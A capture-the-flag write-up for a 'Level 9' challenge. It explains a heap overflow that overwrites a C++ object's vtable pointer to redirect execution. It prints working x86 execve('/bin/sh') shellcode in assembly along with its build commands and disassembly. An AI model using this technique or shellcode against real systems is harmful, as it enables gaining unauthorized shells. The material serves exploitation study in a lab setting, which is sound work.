


# LEVEL 9

This level is about:
- overwriting the vptr (pointer to vtable) of a cpp class
- writing shellcode

Here we have a program in which two instances of the same class are allocated.

They both contain a method, setAnnotation, that takes argv[1] as parameter. Argv[1] is memcpyied at the address this+4.

They also have another method, probably an overload of +.

In the program, the method setAnnotation of the first instance is called. It means that we will be able to overwrite the class, hence the vptr, a ptr to the common vtable, which lists the methods pointers for both classes. For doing so, we'll need to write enough padding bytes to get through the heap until the second instance, and overwrite its vptr.

In the second part of the program, the scnd method is called, through class B, so if we overwrite B's vptr, we can redirect, through the dereferencing, to shellcode (part of our input) that says : "execve(/bin/sh)", and then lauch a shell with the correct rights.

## GDB

Using gdb, we can watch how our two classes are laid out in the heap, before the overwrite :

B pointer is 0x804a078, it contains vptr, the same as A, we will write enoguh padding to get to this address, write another address that will redirect to shell code, part of our overwriting :

## Shellcode

To write shellcode, we need to write an assembly programm that says execve(/bin/sh) :

global \_start
section .text
\_start:
    xor eax, eax
    push eax
    push 0x68732f2f
    push 0x6e69622f
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    mov al, 11
    int 0x80

nasm -f elf32 sc.asm
ld -m elf\_i386 sc.o -o sc
objdump -d sc

Disassembly of section .text:

8049000 <\_start>:
8049000:      31 c0                   xor    %eax,%eax
8049002:      50                      push   %eax
8049003:      68 2f 2f 73 68          push   $0x68732f2f
8049008:      68 2f 62 69 6e          push   $0x6e69622f
804900d:      89 e3                   mov    %esp,%ebx
804900f:      31 c9                   xor    %ecx,%ecx
8049011:      31 d2                   xor    %edx,%edx
8049013:      b0 0b                   mov    $0xb,%al
8049015:      cd 80                   int    $0x80

Then after linking, we can hexdump and retrieve the hex shellcode, format it in our python script, and insert it into our input as we can see above.
